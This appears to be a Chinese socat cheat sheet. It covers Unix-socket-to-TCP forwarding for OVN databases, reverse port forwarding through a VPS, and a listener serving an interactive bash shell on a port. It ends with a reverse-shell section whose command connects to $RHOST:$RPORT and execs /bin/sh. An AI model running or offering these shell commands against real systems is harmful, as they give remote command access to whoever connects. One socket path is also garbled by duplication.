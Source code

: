 http://www.dest-unreach.org/socat/

https://zhuanlan.zhihu.com/p/8601350507

将 Unix Socket 转换为 TCP 连接

socat TCP-LISTEN:65528,fork UNIX-CONNECT:/usr/local/var/run/ovn/ovnnb_db.sock:
socat TCP-LISTEN:端口号,fork UNIX-CONNECT:/usr/local/var/run/ovn//usr/local/var/run/ovn/ovnsb_db.sock:

将 TCP 转换为 Unix Socket
socat TCP-CONNECT:目标地址:端口号 UNIX-CLIENT:/path/to/unix/socket

socat TCP-LISTEN:8080,reuseaddr,fork,max-children=5 EXEC:"bash -i",pty,stderr,setsid,sigint,raw,echo=0,crnl

socat - TCP:服务器IP:8080,setsid,crnl

socat 实现 ssh -r
vps上的客户端
socat -d -d -d tcp-l:80,reuseaddr,bind=0.0.0.0,fork tcp-l:8080,bind=0.0.0.0,reuseaddr,retry=10

lan内的服务器端
socat -d -d -d -v tcp:vpsip:8080,forever,intervall=10,fork tcp:localhost:80

例子：

socat -d -d -d tcp-l:8080,reuseaddr,bind=0.0.0.0,fork tcp-l:80,bind=0.0.0.0,reuseaddr,retry=10
测试： curl -v http://127.0.0.1:8080

本地服务端 被访问
php sapi/webUI/bootstrap.php
socat -d -d -d -v tcp:socat-r.example.com:80,forever,intervall=10,fork tcp:localhost:9502

反弹 shell
远端
socat tcp-connect:$RHOST:$RPORT exec:/bin/sh,pty,stderr,setsid,sigint,sane

本地
socat file:`tty`,raw,echo=0 tcp-listen:12345
